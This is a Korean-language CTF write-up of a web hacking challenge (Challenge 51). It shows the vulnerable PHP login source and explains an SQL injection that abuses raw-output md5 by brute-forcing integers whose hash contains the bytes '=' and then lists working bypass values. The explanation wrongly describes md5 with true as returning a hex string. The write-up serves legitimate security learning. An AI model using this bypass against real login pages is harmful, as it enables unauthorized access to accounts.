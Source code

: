 #51
===



로그인 페이지가 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNDUg/MDAxNTc5MzUwMzMxMzMx.MUAlmp7cW64yuZDZxfRTkcp2FbBoGiWEm_WrmYnOXC0g.nP0tOnX9R8oV4Kh4t2QB0metBZkQdu5e63gp9rjiIzog.JPEG.rlaeoghks823/K-037.jpg?type=w773)

id와 pw에 아무거나쳐봤다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTY5/MDAxNTc5MzUwMzM0MzU4.n8rMYBKzZflnpu_hho8QJMEySTfY-EPUClMacv1faxkg.9FMj9b9VNwrpnyN5xKSmetLp9WcV6wH0Xt8WSIwaEc8g.JPEG.rlaeoghks823/K-038.jpg?type=w773)

wrong이라는 문구가 뜨고 끝이다.

어떤 방식으로 해결해야할지 실마리를 얻기 위해 소스 코드를 봐보았다.

```html
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 51</title>
<style>
table{ color:lightgreen;}
</style>
</head>
<body bgcolor=black><br><br>
<font color=silver>
<center><h1>Admin page</h1></center>
</font>
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
<br><br><br>
<form method=post>
<table border=0 align=center bgcolor=gray width=200 height=100>
<tr align=center><td>ID</td><td><input type=text name=id></td></tr>
<tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
<font color=silver>
<div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
</font>
</form>
</body>
</html>
```

눈에 띄는 코드는 다음과 같다.

```
$input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
```

먼저 md5라는 함수에서 pw값을 md5값으로 바꿔준다. 

인자를 true로 주면 16진수 32글자로된 md5 해시값의 문자열을 반환해준다. 

문제를 해결하기 위해 아래와 같은 과정이 필요하다.

pw에 `어떤 값1 = 어떤 값2`라는걸 넣어주면  
pw = 어떤 값1 = 어떤 값2가 된다.

여기서  
pw = 어떤 값1 -> 거짓

어떤 값2도 문자이므로 거짓이다.

따라서 거짓=거짓 으로 인해 pw='{$input_pw}'는 참이 된다.

그래서 md5로 인코딩 했을 때 나오는 값이 '='이 든 값을 찾기 위해서 아래와 같은 코드를 구했다.

```
<?php
for($i=0;$i<10000000;$i++){
	if(strstr(md5($i,true),"'='")){
		echo ("$i, ");
	}
}
```

이로써 나온 값은 `1839431, 2584670, 2632003, 2998869, 4939073, 5263117, 5273607, 5872358, 7201387, 8930081, 9235566,` 이였고 이중 값 하나를

pw에 넣어주니 문제가 해결되었다.
